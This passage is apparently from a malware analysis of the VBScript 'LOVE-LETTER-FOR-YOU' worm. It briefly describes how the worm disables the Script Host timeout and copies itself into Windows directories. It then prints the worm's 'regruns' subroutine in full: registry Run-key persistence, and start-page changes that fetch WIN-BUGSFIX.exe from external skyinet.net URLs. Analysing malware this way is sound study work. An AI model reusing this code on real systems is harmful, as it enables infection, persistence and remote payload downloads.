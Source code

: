 In main function, it first checks the <span style="color:lightgreen">HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout</span>. If it is greater than 1, then it disables it. By setting it to 0, the script effectively disables the timeout, allowing the script to run indefinitely without being terminated by the Windows Script Host. Then it retrieves that path to Windows, System and Temp directory. Then It copies the script file to 3 locations.

- C:\Windows\System32\MSKernel32.vbs
- C:\Windows\Win32DLL.vbs
- C:\Windows\System32\LOVE-LETTER-FOR-YOU.TXT.vbs

Then it calls other functions and subroutines.

### regruns

```vbs
sub regruns()
On Error Resume Next
Dim num,downread
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32",dirsystem&"\MSKernel32.vbs"
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Win32DLL",dirwin&"\Win32DLL.vbs"
downread=""
downread=regget("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Download Directory")
if (downread="") then
downread="c:\"
end if
if (fileexist(dirsystem&"\WinFAT32.exe")=1) then
Randomize
num = Int((4 * Rnd) + 1)
if num = 1 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~young1s/HJKhjnwerhjkxcvytwertnMTFwetrdsfmhPnjw6587345gvsdf7679njbvYT/WIN-BUGSFIX.exe"
elseif num = 2 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~angelcat/skladjflfdjghKJnwetryDGFikjUIyqwerWe546786324hjk4jnHHGbvbmKLJKjhkqj4w/WIN-BUGSFIX.exe"
elseif num = 3 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~koichi/jf6TRjkcbGRpGqaq198vbFV5hfFEkbopBdQZnmPOhfgER67b3Vbvg/WIN-BUGSFIX.exe"
elseif num = 4 then
regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~chu/sdgfhjksdfjklNBmnfgkKLHjkqwtuHJBhAFSDGjkhYUgqwerasdjhPhjasfdglkNBhbqwebmznxcbvnmadshfgqw237461234iuy7thjg/WIN-BUGSFIX.exe"
end if
end if
if (fileexist(downread&"\WIN-BUGSFIX.exe")=0) then
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\WIN-BUGSFIX",downread&"\WIN-BUGSFIX.exe"
regcreate "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page","about:blank"
end if
end sub
```
